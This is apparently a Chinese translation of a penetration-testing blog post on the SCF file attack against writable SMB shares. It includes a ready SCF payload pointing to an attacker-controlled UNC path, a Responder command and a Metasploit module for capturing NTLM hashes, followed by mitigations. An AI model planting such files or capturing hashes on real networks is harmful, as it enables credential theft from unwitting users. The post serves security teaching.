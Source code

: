 ```yaml
---
title: SMB 共享 – SCF 文件攻击
author: AmtuOrRF
categories: [Misc]
tags: [Misc]
---
```

`https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/`

SMB 是一种在组织中广泛用于文件共享目的的协议。在内部渗透测试期间，发现包含敏感信息（如纯文本密码和数据库连接字符串）的文件共享并不罕见。但是，即使文件共享不包含任何可用于连接到其他系统的数据，但为未经身份验证的用户配置了写入权限，也可以获取域用户或Meterpreter shell的密码哈希。

### 收集哈希

SCF（Shell 命令文件）文件可用于执行一组有限的操作（如显示 Windows 桌面或打开 Windows 资源管理器）并不是什么新鲜事。但是，SCF文件可用于访问特定的UNC路径，该路径允许渗透测试人员构建攻击。下面的代码可以放在一个文本文件中，然后需要将其植入网络共享中。

```cmd
[Shell]
Command=2
IconFile=\\X.X.X.X\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

将文件另存为 SCF 文件将使该文件在用户浏览文件时执行。在文件名前面添加 @ 符号会将 pentestlab.scf 放在共享驱动器的顶部。

需要使用以下参数执行响应程序，以捕获将浏览共享的用户的哈希。

```bash
$ responder -wrf --lm -v -I eth0
```


当用户浏览共享时，将自动建立从其系统到 SCF 文件中包含的 UNC 路径的连接。Windows 将尝试使用用户的用户名和密码对该共享进行身份验证。在该身份验证过程中，随机的 8 字节质询密钥从服务器发送到客户端，并使用此质询密钥再次对散列的 NTLM/LANMAN 密码进行加密。响应程序将捕获 NTLMv2 哈希。



与Responder相反，Metasploit Framework有一个模块，可用于从SMB客户端捕获质询 - 响应密码哈希。


`auxiliary/server/capture/smb`

## 结论

这种技术利用了所有网络中真正常见的东西，如共享，以便检索密码哈希并获取meterpreter shell。唯一的要求是用户需要浏览包含恶意 SCF 文件的共享。但是，可以通过执行以下操作来防止这些攻击：

-   使用 Kerberos 身份验证和 SMB 签名
-   不允许未经身份验证的用户在文件共享中具有写入权限
-   确保使用 NTLMv2 密码哈希而不是 LanMan